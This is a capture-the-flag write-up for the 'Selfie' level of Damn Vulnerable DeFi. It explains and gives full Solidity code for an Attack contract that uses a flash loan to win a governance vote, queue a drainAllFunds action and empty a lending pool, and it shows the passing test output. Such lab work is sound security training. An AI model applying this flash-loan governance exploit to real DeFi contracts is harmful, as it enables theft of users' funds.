 # Damn Vulnerable DeFi (Foundry version)

- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

## Challenge #6 - Selfie - Description

A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

## Scope

| File Name                                                                    | SHA-1 Hash                               |
| ---------------------------------------------------------------------------- | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/selfie/SelfiePool.sol             | 7769017e86bf554c0134721a4dfd961a979b9140 |
| damn-vulnerable-defi-foundry/src/Contracts/the-rewarder/SimpleGovernance.sol | b1421c7304c5709e8bbedaea0dd5fafc00586711 |

## Plan

Flash loan **and** governance mechanism... I think we already have an idea about the exploitation.

## Solution

<details>
    <summary>Description</summary>

`SelfiePool` has two functions `flashLoan`, with a check that the [borrower must be a contract](https://github.com/cRat1st0s/damn-vulnerable-defi-foundry/blob/b1b61dfe28cbdd8a7f4d3b3e1b73cf2963afc750/src/Contracts/selfie/SelfiePool.sol#L42) and we will have to implement our own [`receiveTokens`](https://github.com/cRat1st0s/damn-vulnerable-defi-foundry/blob/b1b61dfe28cbdd8a7f4d3b3e1b73cf2963afc750/src/Contracts/selfie/SelfiePool.sol#L43), and `drainAllFunds`, that [`onlyGovernance`](https://github.com/cRat1st0s/damn-vulnerable-defi-foundry/blob/b1b61dfe28cbdd8a7f4d3b3e1b73cf2963afc750/src/Contracts/selfie/SelfiePool.sol#L50) can call it. So, we are going to abuse the `flashLoan` to somehow gain control of the governance.

`SimpleGovernance` has `queueAction`, that adds a proposal to the queue **only** [if `msg.sender` owns more than half of the total DamnValuableTokenSnapshot on the last snapshot](https://github.com/cRat1st0s/damn-vulnerable-defi-foundry/blob/b1b61dfe28cbdd8a7f4d3b3e1b73cf2963afc750/src/Contracts/selfie/SimpleGovernance.sol#L92-L96).

`SimpleGovernance` has also `executeAction` that executes an action form the queue **only** [if it's the first time that is been executed **and** two days have passed](https://github.com/cRat1st0s/damn-vulnerable-defi-foundry/blob/b1b61dfe28cbdd8a7f4d3b3e1b73cf2963afc750/src/Contracts/selfie/SimpleGovernance.sol#L88).

1.  Call `flashLoan` with `TOKENS_IN_POOL` from our `Attack` contract.
2.  In our `receiveTokens` trigger `snapshot` of `DamnValuableTokenSnapshot`.
3.  Call `queueAction` of `SimpleGovernance`.
4.  Pay back the loan.
5.  Fast-forward 2 days.
6.  Call `executeAction` of `SimpleGovernance`.

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/selfie/Selfie.t.sol</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {Utilities} from "../../utils/Utilities.sol";
import "forge-std/Test.sol";

import {DamnValuableTokenSnapshot} from "../../../src/Contracts/DamnValuableTokenSnapshot.sol";
import {SimpleGovernance} from "../../../src/Contracts/selfie/SimpleGovernance.sol";
import {SelfiePool} from "../../../src/Contracts/selfie/SelfiePool.sol";

contract Selfie is Test {
    uint256 internal constant TOKEN_INITIAL_SUPPLY = 2_000_000e18;
    uint256 internal constant TOKENS_IN_POOL = 1_500_000e18;

    Utilities internal utils;
    SimpleGovernance internal simpleGovernance;
    SelfiePool internal selfiePool;
    DamnValuableTokenSnapshot internal dvtSnapshot;
    address payable internal attacker;

    function setUp() public {
        utils = new Utilities();
        address payable[] memory users = utils.createUsers(1);
        attacker = users[0];

        vm.label(attacker, "Attacker");

        dvtSnapshot = new DamnValuableTokenSnapshot(TOKEN_INITIAL_SUPPLY);
        vm.label(address(dvtSnapshot), "DVT");

        simpleGovernance = new SimpleGovernance(address(dvtSnapshot));
        vm.label(address(simpleGovernance), "Simple Governance");

        selfiePool = new SelfiePool(
            address(dvtSnapshot),
            address(simpleGovernance)
        );

        dvtSnapshot.transfer(address(selfiePool), TOKENS_IN_POOL);

        assertEq(dvtSnapshot.balanceOf(address(selfiePool)), TOKENS_IN_POOL);

        console.log(unicode"🧨 Let's see if you can break it... 🧨");
    }

    function testExploit() public {
        /**
         * EXPLOIT START *
         */
        vm.prank(attacker);
        Attack attack = new Attack(simpleGovernance, selfiePool, attacker);
        attack.pwn(TOKENS_IN_POOL);
        vm.warp(block.timestamp + 2 days);
        simpleGovernance.executeAction(attack.drainActionId());
        /**
         * EXPLOIT END *
         */
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }

    function validation() internal {
        // Attacker has taken all tokens from the pool
        assertEq(dvtSnapshot.balanceOf(attacker), TOKENS_IN_POOL);
        assertEq(dvtSnapshot.balanceOf(address(selfiePool)), 0);
    }
}

contract Attack {
    SimpleGovernance internal simpleGovernance;
    SelfiePool internal selfiePool;
    address attacker;
    uint256 public drainActionId;

    constructor(SimpleGovernance _simpleGovernance, SelfiePool _selfiePool, address _attacker) {
        simpleGovernance = _simpleGovernance;
        selfiePool = _selfiePool;
        attacker = _attacker;
    }

    function receiveTokens(address tokenAddress, uint256 borrowAmount) external payable {
        DamnValuableTokenSnapshot(tokenAddress).snapshot();
        bytes memory data = abi.encodeWithSignature("drainAllFunds(address)", address(attacker));
        drainActionId = simpleGovernance.queueAction(address(selfiePool), data, 0);
        DamnValuableTokenSnapshot(tokenAddress).transfer(address(selfiePool), borrowAmount);
    }

    function pwn(uint256 borrowAmount) external {
        selfiePool.flashLoan(borrowAmount);
    }
}
```

</details>

### Proof of Concept

```
./run.sh 6
[⠢] Compiling...
[⠢] Compiling 1 files with 0.8.17
[⠆] Solc 0.8.17 finished in 889.98ms
Compiler run successful

Running 1 test for test/Levels/selfie/Selfie.t.sol:Selfie
[PASS] testExploit() (gas: 827663)
Logs:
  🧨 Let's see if you can break it... 🧨

🎉 Congratulations, you can go to the next level! 🎉

Test result: ok. 1 passed; 0 failed; finished in 1.24ms
```
